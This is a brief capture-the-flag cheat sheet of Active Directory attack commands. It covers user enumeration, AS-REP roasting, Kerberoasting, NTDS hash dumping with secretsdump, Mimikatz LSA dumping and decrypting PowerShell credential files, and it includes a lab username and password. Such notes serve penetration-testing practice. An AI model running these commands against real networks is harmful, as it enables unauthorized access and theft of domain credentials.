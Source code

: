 # kerberute
[https://book.hacktricks.xyz/windows/active-directory-methodology](https://book.hacktricks.xyz/windows/active-directory-methodology) 

```text-plain
crackmapexec smb dc.ustoun.local -u 'guest' -p '' --rid-brute
```

for user enumeration use:

```text-plain
./kerbrute userenum --dc $ip -d raz0rblack.thm fnames.txt 
```

[https://wadcoms.github.io/#+Username+Password+Linux+Exploitation+SMB](https://wadcoms.github.io/#+Username+Password+Linux+Exploitation+SMB) 

If you know one user, you can find others with 

`GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username` or `enum4linux -a -u "user" -p "password" <DC IP>`

for finding krb5tgt hashes, use 

```text-plain
python3 GetNPUsers.py windcorp.thm/ -no-pass -usersfile ../../../windcorp/valid_users.txt
```

`python3 GetUserSPNs.py -usersfile ../../valid_users.txt -no-pass -dc-ip 10.10.75.185 raz0rblack.thm/twilliams:roastpotatoes`

`./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL`

for poweshell session, use mimikatz as 

`Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`

[https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-credential?view=powershell-7.2](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-credential?view=powershell-7.2) 

https://stackoverflow.com/questions/63639876/powershell-password-decrypt 

encrypted passwords in powershell credential object

`$Credential = Import-Clixml -Path "lvetrova.xml"`

`$Credential.GetNetworkCredential().password`